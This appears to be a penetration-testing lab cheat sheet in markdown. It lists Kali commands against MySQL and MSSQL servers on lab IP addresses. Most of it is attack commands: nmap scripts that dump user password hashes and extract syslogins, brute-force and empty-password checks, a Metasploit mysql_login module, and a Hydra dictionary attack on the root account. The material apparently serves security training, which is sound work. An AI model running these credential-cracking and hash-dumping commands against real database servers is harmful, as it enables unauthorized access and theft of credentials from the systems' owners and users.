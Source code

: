 ```bash

# 15. Check whether File Privileges can be granted to non admin users using mysql_audi nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-audit --script-args 'mysql-audit.username=root,mysql-audit.filename=/usr/share/nmap/nselib/data/mysql-cis.audit'

# 16. Dump all user hashes using  nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-dump-hashes --script-args 'username=root'

# 17. Find the number of records stored in table “authors” in database “books” stored on MySQL Server using mysql-query nmap script.
john@kali> nmap 192.193.26.3 -p 3306 --script mysql-query --script-args 'query="select count(*) from books.authors",username=root'
```

### MySQL Dictionary attack

```bash
john@kali> ip a
john@kali> nmap 192.86.53.3

# 1. Find the password of user “root” which is required to access the MySQL server.
#    Use suitable metasploit module with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> msfconsole
msf5> use scanner/mysql/mysql_login
msf5> set rhosts 192.86.53.3
msf5> set username root
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run

# 2. Find the password of user “root” which is required to access the MySQL server. 
#    Use Hydra with password dictionary: /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
john@kali> hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.86.53.3 mysql
```

### MSSQL Nmap scripts

```bash
john@kali> ip a
john@kali> nmap 10.2.18.228

# 1. Identify MSSQL Database Server
john@kali> nmap 10.2.18.228 -p 1433 -sV

# 2. Find information from the MSSQL server with NTLM.
john@kali> nmap 10.2.18.228 -p 1433 --script ms-sql-ntlm-info

# 3. Enumerate all valid MSSQL users and passwords
john@kali> nmap 10.2.18.228 --script ms-sql-brute --script-args='userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt'

# 4. Identify 'sa' user password
john@kali> nmap 10.2.18.228 --script ms-sql-empty-password

# 5. Execute MSSQL query to extract sysusers
john@kali> nmap 10.2.18.228 --script ms-sql-query --script-args mssql.username=sa,ms-sql-query.query="select * from master..syslogins"

# 6. Dump MSSQL users hashes
john@kali> nmap 10.2.18.228 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

```